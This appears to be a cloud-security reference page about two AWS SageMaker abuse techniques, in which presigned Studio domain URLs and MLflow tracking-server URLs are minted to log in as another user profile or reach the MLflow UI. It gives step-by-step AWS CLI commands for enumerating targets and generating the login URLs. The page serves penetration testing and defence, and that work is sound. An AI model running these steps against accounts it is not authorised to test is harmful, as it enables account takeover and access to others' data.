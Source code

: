 # AWS - SageMaker Unauthorized Access

## SageMaker Studio - Account Takeover via CreatePresignedDomainUrl (Impersonate Any UserProfile)

### Description
An identity with permission to call `sagemaker:CreatePresignedDomainUrl` on a target Studio `UserProfile` can mint a login URL that authenticates directly into SageMaker Studio as that profile. This grants the attacker's browser a Studio session that inherits the profile's `ExecutionRole` permissions and full access to the profile's EFS-backed home and apps. No `iam:PassRole` or console access is required.

### Requirements
- A SageMaker Studio `Domain` and a target `UserProfile` within it.
- The attacker principal needs `sagemaker:CreatePresignedDomainUrl` on the target `UserProfile` (resource‑level) or `*`.

Minimal policy example (scoped to one UserProfile):

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Action": "sagemaker:CreatePresignedDomainUrl",
      "Resource": "arn:aws:sagemaker:<region>:<account-id>:user-profile/<domain-id>/<user-profile-name>"
    }
  ]
}
```

### Abuse Steps

1) Enumerate a Studio Domain and UserProfiles you can target
```bash
DOM=$(aws sagemaker list-domains --query 'Domains[0].DomainId' --output text)
aws sagemaker list-user-profiles --domain-id-equals $DOM
TARGET_USER=<UserProfileName>
```

2) Generate a presigned URL (valid ~5 minutes by default)
```bash
aws sagemaker create-presigned-domain-url \
  --domain-id $DOM \
  --user-profile-name $TARGET_USER \
  --query AuthorizedUrl --output text
```

3) Open the returned URL in a browser to sign into Studio as the target user. In a Jupyter terminal inside Studio verify the effective identity:
```bash
aws sts get-caller-identity
```

Notes:
- `--landing-uri` can be omitted. Some values (e.g., `app:JupyterLab:/lab`) may be rejected depending on Studio flavor/version; defaults typically redirect to the Studio home and then to Jupyter.
- Org policies/VPC endpoint restrictions may still block network access; the token minting does not require console sign‑in or `iam:PassRole`.

### Impact
- Lateral movement and privilege escalation by assuming any Studio `UserProfile` whose ARN is permitted, inheriting its `ExecutionRole` and filesystem/apps.

### Evidence (from a controlled test)
- With only `sagemaker:CreatePresignedDomainUrl` on a target `UserProfile`, the attacker role successfully returned an `AuthorizedUrl` like:
```
https://studio-d-xxxxxxxxxxxx.studio.<region>.sagemaker.aws/auth?token=eyJhbGciOi...
```
- A direct HTTP request responds with a redirect (HTTP 302) to Studio, confirming the URL is valid and active until expiry.

## SageMaker MLflow Tracking Server - ATO via CreatePresignedMlflowTrackingServerUrl

### Description
An identity with permission to call `sagemaker:CreatePresignedMlflowTrackingServerUrl` for a target SageMaker MLflow Tracking Server can mint a single‑use presigned URL that authenticates directly to the managed MLflow UI for that server. This grants the same access a legitimate user would have to the server (view/create experiments and runs, and download/upload artifacts in the server’s S3 artifact store) without console access or `iam:PassRole`.

### Requirements
- A SageMaker MLflow Tracking Server in the account/region and its name.
- The attacker principal needs `sagemaker:CreatePresignedMlflowTrackingServerUrl` on the target MLflow Tracking Server resource (or `*`).

Minimal policy example (scoped to one Tracking Server):

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Action": "sagemaker:CreatePresignedMlflowTrackingServerUrl",
      "Resource": "arn:aws:sagemaker:<region>:<account-id>:mlflow-tracking-server/<tracking-server-name>"
    }
  ]
}
```

### Abuse Steps

1) Enumerate MLflow Tracking Servers you can target and pick one name
```bash
aws sagemaker list-mlflow-tracking-servers \
  --query 'TrackingServerSummaries[].{Name:TrackingServerName,Status:TrackingServerStatus}'
TS_NAME=<tracking-server-name>
```

2) Generate a presigned MLflow UI URL (valid for a short time)
```bash
aws sagemaker create-presigned-mlflow-tracking-server-url \
  --tracking-server-name "$TS_NAME" \
  --expires-in-seconds 300 \
  --session-expiration-duration-in-seconds 1800 \
  --query AuthorizedUrl --output text
```

3) Open the returned URL in a browser to access the MLflow UI as an authenticated user for that Tracking Server.

Notes:
- The Tracking Server must be in a ready state (e.g., `Created/Active`). If it is still `Creating`, the call will be rejected.
- The presigned URL is single‑use and short‑lived; generate a new one when needed.

### Impact
- Direct access to the managed MLflow UI for the targeted Tracking Server, enabling viewing and modification of experiments/runs and retrieval or upload of artifacts stored in the server’s configured S3 artifact store, within the permissions enforced by the server configuration.

